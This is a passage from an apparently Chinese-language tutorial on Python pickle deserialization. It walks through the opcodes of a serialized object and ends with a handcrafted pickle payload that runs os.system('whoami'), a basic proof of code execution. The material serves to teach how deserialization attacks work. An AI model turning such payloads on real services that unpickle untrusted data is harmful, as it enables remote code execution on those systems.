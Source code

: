 ```Python
\x80\x03c__main__\ntest\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03X\x04\x00\x00\x00testq\x04X\x03\x00\x00\x00ageq\x05M\x0f'ub.
```

对照查表
```Python
    0: \x80 PROTO      3 # 协议版本3 => \x80\x03
    2: c    GLOBAL     '__main__ test' # 将(module.attr)压入栈
   17: q    BINPUT     0 # 标记 q\x00
   19: )    EMPTY_TUPLE # 把一个空的tuple压入当前栈
   20: \x81 NEWOBJ  # 从栈中先弹出一个元素，记为args；再弹出一个元素，记为cls。接下来，执行cls.__new__(cls, *args) ，然后把得到的东西压进栈。
   21: q    BINPUT     1 #标记 q\x01
   23: }    EMPTY_DICT   # 把一个空的dict压进栈
   24: q    BINPUT     2 # q\x02
   26: (    MARK        # 把当前栈这个整体，作为一个list，压进前序栈。把当前栈清空。
   27: X        BINUNICODE 'name'  #插入一个BINUNICODE X\x04\x00\x00\x00name 表示长度为4 固定四位 第一位为变量的长度若属于ascii表示范围则用字符表示，超过\xff 向后进位
   36: q        BINPUT     3 # q\x03
   38: X        BINUNICODE 'test' #X\x04\x00\x00\x00name 同上插入 name
   47: q        BINPUT     4 # q\x04
   49: X        BINUNICODE 'age' #X\x03\x00\x00\x00age
   57: q        BINPUT     5  # q\x05
   59: M        BININT2    9999 # 插入两个字节的整数 hex(9999) = 270f  反转 \x0f\x027 -> M\x0f'
   62: u        SETITEMS   (MARK at 26) # 将当前栈恢复到(标记时的状态，然后形成arr=['name', 'test, 'age',9999]，两个一组地读arr里面的元素，前者作为key，后者作为value，存进23所述的dict
   63: b    BUILD  #把当前栈栈顶存进state，然后弹掉。把当前栈栈顶记为inst，然后弹掉。利用state这一系列的值来更新实例inst。把得到的对象扔进当前栈。
   64: .    STOP
```
>注：这里更新实例的方式是：如果inst拥有__setstate__方法，则把state交给__setstate__方法来处理；否则的话，直接把state这个dist的内容，合并到inst.\_\_dict__ 里面。

具体问题参考 [从零开始python反序列化攻击](https://zhuanlan.zhihu.com/p/89132768)

借用一下别人的图，理解一下当前栈 前序栈和存储区
[![JFx5vV.png](https://s1.ax1x.com/2020/04/16/JFx5vV.png)](https://imgchr.com/i/JFx5vV)

大致流程如下
![JkNDD1.png](https://s1.ax1x.com/2020/04/16/JkNDD1.png)


### 对于函数
如何反序列化一个函数，通过下面两个例子来演示一下
#### 例子一
反序列化一个system("whoami")
如果上下文存在 os模块
```Python
cos #模块为os
system #对象名 system
(S'whoami' #(可以理解为system()的( 虽然不是很准确
tR.  # t相当于与上一个(形成了() R弹出两个元素执行 .结束
```
执行效果
![JFBsm9.png](https://s1.ax1x.com/2020/04/16/JFBsm9.png)
